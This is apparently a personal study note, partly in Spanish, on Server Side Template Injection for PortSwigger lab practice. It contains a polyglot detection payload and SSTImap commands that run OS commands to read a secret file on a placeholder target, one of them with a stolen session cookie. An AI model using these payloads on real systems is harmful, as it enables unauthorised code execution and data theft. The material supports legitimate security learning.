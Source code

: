 ### Server Side Template Injection

![[Pasted image 20250218112748.png]]

* Payloads de `All The Things`: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig---code-execution -> organizado actualmente por .MD de cada Engine Template de lenguaje (php,py,js,java, etc.)


![[Pasted image 20250218112640.png]]

## Polyglot SSTi

In most cases, this polyglot payload will trigger an error in presence of a SSTI vulnerability:

```powershell
${{<%[%'"}}%\.
```
### SSTI Identified

> SSTI can be _**identified**_ using the tool [SSTImap](https://github.com/vladko312/SSTImap). The limitations of this tool is that the template expression `{{7*7}}` results are sometimes only evaluated by another GET request or calling another function in the application, as the **output** is not directly reflected or echoed into the response where the template expression was posted.  
> Alternative way to _**identify**_ the template framework is to induce error message by injecting malformed user supplied payloads.

Esta tool, la tengo en mi directorio principal /Users/juanfelipeoz/ y la puedo activar el entorno virtual con `source venv/bin/activate;`

Dejo la url igualmente pa ver los commands de ejemplo: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

[Tib3rius give great SSTI explanation on this PortSwigger Web Academy labs tutorial](https://youtu.be/p6ElHfcnlSw)

```shell
python3 sstimap.py --engine erb -u https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock --os-cmd "cat /home/carlos/secret"
```

> POST request with the data param to test and send payload using SSTImap tool.

```shell
python3 sstimap.py -u https://TARGET.net/product/template?productId=1 --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
```

![[Pasted image 20250219164009.png]]

<hr>

### Payloads `@botesJuan`
